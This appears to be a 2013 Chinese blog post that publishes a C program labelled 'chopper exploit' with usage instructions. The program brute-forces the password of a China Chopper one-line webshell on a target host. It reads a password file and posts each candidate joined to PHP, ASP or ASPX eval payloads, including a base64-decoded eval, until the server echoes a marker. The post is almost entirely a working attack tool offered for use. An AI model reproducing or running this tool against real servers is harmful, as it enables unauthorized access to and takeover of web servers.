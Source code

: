 title: "C语言版一句话破解"
date: 2013-06-09 22:55:55
tags:
id: 204
comment: false
categories:
  - 编程学习
---

<pre class="brush:cpp">/**************************************************************************
*                           chopper exploit                               *
***************************************************************************
*USAGE:                                                                   * 
*$cc -o post post.c                                                       *
*$./post -u test.xxxx.com -f ./password.txt -p /db.php -s php|asp|aspx   *
***************************************************************************
*Auther: lpcdma                                                           *
*DATE: Wed Apr 10 18:28:47 CST 2013                                       *
*References: Beginning Linux Programming 4th Edition                      *
**************************************************************************/
#include &lt;arpa/inet.h&gt;
#include &lt;assert.h&gt;
#include &lt;errno.h&gt;
#include &lt;netinet/in.h&gt;
#include &lt;signal.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;netdb.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
//#include &lt;pthread.h&gt;
//#include &lt;sys/temp.h&gt;

#define SA      struct sockaddr
#define MAXLINE 4096
#define MAXSUB  200
#define LISTENQ         1024
//#define MAX     10

char buf[MAXLINE];

extern int h_errno;

ssize_t process_http(int sockfd, char *host, char *page, char *poststr)
{
	char sendline[MAXLINE + 1], recvline[MAXLINE + 1];
	ssize_t n;
	snprintf(sendline, MAXSUB,
		 "POST %s HTTP/1.0\r\n"
		 "Host: %s\r\n"
		 "Content-type: application/x-www-form-urlencoded\r\n"
		 "Content-length: %d\r\n\r\n"
		 "%s", page, host, strlen(poststr), poststr);

	write(sockfd, sendline, strlen(sendline));
	while ((n = read(sockfd, recvline, MAXLINE)) &gt; 0) {
		recvline[n] = '\0';
		char * tmp;
		tmp=strstr(recvline,"fuck");
		if(!tmp)
			continue;
		else
		{
			printf("Successful cracking Password Is %s",buf);
			exit(0);
		}
	}
	return n;

}
int SendPost(char *hname, char *page, char *poststr)
{
	int sockfd;
	struct sockaddr_in servaddr;
	char **pptr;
	char str[50];
	struct hostent *hptr;

	if ((hptr = gethostbyname(hname)) == NULL) {
		fprintf(stderr, " gethostbyname error for host: %s: %s",
			hname, hstrerror(h_errno));
		exit(1);
	}
	if (hptr-&gt;h_addrtype == AF_INET
	    &amp;&amp; (pptr = hptr-&gt;h_addr_list) != NULL) {
		inet_ntop(hptr-&gt;h_addrtype, *pptr, str,sizeof(str));
	} else {
		fprintf(stderr, "Error call inet_ntop \n");
	}

	sockfd = socket(AF_INET, SOCK_STREAM, 0);
	bzero(&amp;servaddr, sizeof(servaddr));
	servaddr.sin_family = AF_INET;
	servaddr.sin_port = htons(80);
	inet_pton(AF_INET, str, &amp;servaddr.sin_addr);

	connect(sockfd, (SA *) &amp; servaddr, sizeof(servaddr));
	process_http(sockfd, hname, page, poststr);
	close(sockfd);

}

int main(int argc,char *argv[])
{
	int ch;
	FILE *fd;
	char *hname;
	char *page;
	char *poststr;
	char *filename;
	char *scriptype;

	char *poststrphp = "=@eval(base64_decode($_POST[z0]));&amp;z0=ZWNobygiZnVjayIpO2RpZSgpOw==\r\n";
	char *poststrasp = "=execute(\"response.clear:response.write(\"\"fuck\"\"):response.end\")";
	char *poststraspx = "=Response.Clear();Response.Write(\"fuck\");";

	while((ch = getopt(argc,argv,"u:p:f:s:")) != -1)
	{
		switch(ch)
		{
			case 'u':
				hname = optarg;
				break;
			case 'p':
				page = optarg;
				break;
			case 'f':
				filename = optarg;
				break;
			case 's':
				scriptype = optarg;
				break;
		}
	}

	if(strstr(scriptype,"php")){
		poststr = (char *)malloc(strlen(poststrphp));
		strcpy(poststr,poststrphp);
//		printf("%s",poststr);
	}

	else if (strstr(scriptype,"aspx"))
	{
		poststr = (char *)malloc(strlen(poststraspx));
		strcpy(poststr,poststraspx);
	}
	else
	{
		poststr = (char *)malloc(strlen(poststrasp));
		strcpy(poststr,poststrasp);
	}

	if((fd = fopen(filename,"r")) == NULL)
		perror("open password file failed!");
	while(fgets(buf, MAXLINE, fd) != NULL)
	{
		char temp[MAXLINE];
		strncat(temp,buf,strlen(buf)-1);
		strcat(temp,poststr);
//		printf("%s",temp);
		SendPost(hname,page,temp);
		memset(temp,0,strlen(temp));
	}

}</pre>